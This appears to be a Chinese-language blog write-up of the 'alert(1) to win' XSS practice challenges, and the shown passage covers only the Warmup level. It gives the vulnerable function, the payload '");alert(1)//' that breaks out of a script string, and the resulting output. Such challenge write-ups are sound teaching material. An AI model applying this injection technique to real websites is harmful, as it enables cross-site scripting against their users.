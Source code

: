 ```yaml
---
layout: post
title:  "XSS-alert(1)_to_win"
date:   2019-10-26
desc: ""
keywords: ""
categories: [Web]
tags: []
icon: icon-html
---
```


# XSS-alert(1)_to_win

## 平台地址与介绍

https://alf.nu/alert1

左侧为题目，括号内为你成功解题使用的payload长度，每解出一题会解锁后面的题目

源码白给，在Input处输入payload，output给出拼接后的代码，若能成功执行alert(1)则判定win

Console output给出控制台输出

Test iframe显示iframe

如图

![1](https://raw.githubusercontent.com/AiDaiP/images/master/xss/1.jpg)



## Warmup

```javascript
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

注入点在`'+s+'`，输入的payload会插入到此处

前面有括号和双引号，首先应该闭合，所以payload开头应为`")`

后面也有括号和双引号，对于这些内容，可以直接注释掉，注释符号为`//`

Payload

```javascript
");alert(1)//
```

Output

```javascript
<script>console.log("");alert(1)//");</script>
```
